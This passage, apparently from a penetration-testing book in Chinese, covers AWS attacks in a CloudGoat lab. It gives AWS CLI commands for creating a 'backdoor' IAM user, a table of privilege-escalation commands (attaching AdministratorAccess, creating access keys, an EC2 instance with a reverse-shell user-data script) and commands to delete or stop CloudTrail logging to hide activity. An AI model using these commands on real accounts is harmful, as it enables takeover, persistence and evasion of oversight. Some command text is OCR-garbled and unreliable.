     图 8.46：为用户创建新的访问密钥

1.  此外，你可以通过运行 `sudo aws iam create-user –username backdoor –profile ec2-admin` 创建一个新用户作为访问环境的后门，并且应该能够看到新用户被创建，附带一个访问密钥和一个密钥访问密钥，如 *图 8.47* 所示：![文本描述自动生成](img/B17765_08_47.png)

    图 8.47：为后门访问创建新用户

1.  测试人员现在可以返回 CloudGoat Docker 镜像，并通过在终端运行 `./cloudgoat.py destroy all` 来销毁 AWS 设置。

*表格 8.3* 提供了渗透测试人员在 AWS 渗透测试过程中可以利用的有用命令参考：

| **描述** | **命令参考** |
| --- | --- |
| 创建一个新的策略版本 | `aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/ /policy.json –set-as-default` |
| 设置默认策略版本为现有版本 | `aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2` |
| 使用现有实例配置文件创建 EC2 实例 | `aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –key-name my_ssh_key –security-group-ids sg-123456``aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –user-data file://script/with/reverse/shell.sh` |
| 创建一个新的用户访问密钥 | `aws iam create-access-key –user-name target_user` |
| 创建一个新的登录配置文件 | `aws iam create-login-profile –user-name target_user –password '&#124;[3rxYGGl3@'~68)O{,-$1B"zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;&#124;,lyTKOLG7J[qH$LV5U<9'O~Z",jJ[iT-D^(' –no-password-reset-required` |
| 更新现有登录配置文件 | `aws iam update-login-profile –user-name target_user –password '&#124;[3rxYGGl3@'~68)O{,-$1B"zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;&#124;,lyTKOLG7J[qH$LV5U<9'O~Z",jJ[iT-D^(' -–no-password-reset-required` |
| 附加策略到用户组角色 | `aws iam attach-user-policy –user-name my_username –policy-arn``arn:aws:iam::aws:policy/AdministratorAccess aws iam attach-group-policy –group-name group_i_am_in –policy-arn arn:aws:iam::aws:policy/AdministratorAccess``aws iam attach-role-policy –role-name role_i_can_assume –policy-arn arn:aws:iam::aws:policy/AdministratorAccess` |
| 创建/更新用户组角色的内联策略 | `aws iam put-user-policy –user-name my_username –policy-name my_inline_policy –policy-document file://path/to/policy.json``aws iam put-group-policy –group-name group_i_am_in –policy-name group_inline_policy –policy-document file://path/to/policy.json>``aws iam put-role-policy –role-name role_i_can_assume –policy-name role_inline_policy –policy-document file://path/to/policy.json` |
| 将用户添加到组中 | `aws iam add-user-to-group –-group-name target_group –-user-name username` |
| 更新角色的 `AssumeRolePolicyDocument` | `aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json` |
| 更新现有 Lambda 函数的代码 | `aws lambda update-function-code -–function-name target_function –zip-file fileb://my/lambda/code/zipped.zip` |

表 8.3：渗透测试期间有用的 AWS 命令

# 混淆 CloudTrail 日志

CloudTrail 是亚马逊提供的一个服务，用于监控用户执行的所有操作。假设攻击者现在拥有高度特权的环境访问权限，他们将能够通过执行以下操作来修改设置：

1.  通过运行 `sudo aws cloudtrail describe-details –profile <profile name>` 来识别 CloudTrail 详情。

1.  攻击者可以选择通过运行 `sudo aws cloudtrail delete-trail --name cloudgoat_trail --profile <Profile name>` 来删除日志轨迹。

1.  或者，他们可以通过运行 `sudo aws cloudtrail stop-logging --name cloudgoat_trail --profile <Profile name>` 来停止日志记录。然而，这将触发 GuardDuty（AWS 内部的威胁检测服务）关于日志未被捕捉的警报。
